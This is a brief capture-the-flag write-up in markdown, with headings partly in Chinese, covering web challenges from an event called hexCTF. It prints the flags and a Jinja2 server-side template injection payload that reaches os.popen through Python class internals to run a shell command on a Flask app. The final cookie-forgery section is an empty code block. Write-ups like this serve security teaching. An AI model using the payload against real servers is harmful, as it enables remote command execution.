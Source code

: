 # Web

## Well known

1. robots.txt

> hexCTF{th4nk_y0u_liv3_0v3rfl0w}

## Notes

1. Flask模板注入

```
{{config.__class__.__mro__[2].__subclasses__()[117].__init__.__globals__['popen']('cat flag').read()}}

/notes
```

> hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}

## JACC

1. Flask Cookie伪造

```

```